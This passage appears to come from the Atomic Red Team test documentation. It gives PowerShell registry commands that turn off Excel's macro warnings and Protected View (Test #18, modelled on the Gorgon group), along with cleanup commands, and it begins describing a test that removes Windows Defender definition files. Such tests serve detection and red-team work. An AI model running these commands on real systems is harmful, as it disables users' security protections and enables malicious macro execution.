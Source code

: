 



<br/>
<br/>

## Atomic Test #18 - Disable Microsoft Office Security Features
Gorgon group may disable Office security features so that their code can run. Upon execution, an external document will not
show any warning before editing the document.


https://unit42.paloaltonetworks.com/unit42-gorgon-group-slithering-nation-state-cybercrime/

**Supported Platforms:** Windows





#### Attack Commands: Run with `powershell`! 


```powershell
New-Item -Path "HKCU:\Software\Microsoft\Office\16.0\Excel"
New-Item -Path "HKCU:\Software\Microsoft\Office\16.0\Excel\Security"
New-Item -Path "HKCU:\Software\Microsoft\Office\16.0\Excel\Security\ProtectedView"
New-ItemProperty -Path "HKCU:\Software\Microsoft\Office\16.0\Excel\Security" -Name "VBAWarnings" -Value "1" -PropertyType "Dword"
New-ItemProperty -Path "HKCU:\Software\Microsoft\Office\16.0\Excel\Security\ProtectedView" -Name "DisableInternetFilesInPV" -Value "1" -PropertyType "Dword"
New-ItemProperty -Path "HKCU:\Software\Microsoft\Office\16.0\Excel\Security\ProtectedView" -Name "DisableUnsafeLocationsInPV" -Value "1" -PropertyType "Dword"
New-ItemProperty -Path "HKCU:\Software\Microsoft\Office\16.0\Excel\Security\ProtectedView" -Name "DisableAttachementsInPV" -Value "1" -PropertyType "Dword"
```

#### Cleanup Commands:
```powershell
Remove-ItemProperty -Path "HKCU:\Software\Microsoft\Office\16.0\Excel\Security" -Name "VBAWarnings" -ErrorAction Ignore | Out-Null
Remove-Item -Path "HKCU:\Software\Microsoft\Office\16.0\Excel\Security\ProtectedView" -ErrorAction Ignore
```





<br/>
<br/>

## Atomic Test #19 - Remove Windows Defender Definition Files
Removing definition files would cause ATP to not fire for AntiMalware. Check MpCmdRun.exe man page for info on all arguments.
On later viersions of windows (1909+) this command fails even with admin due to inusfficient privelages. On older versions of windows the
command will say completed.
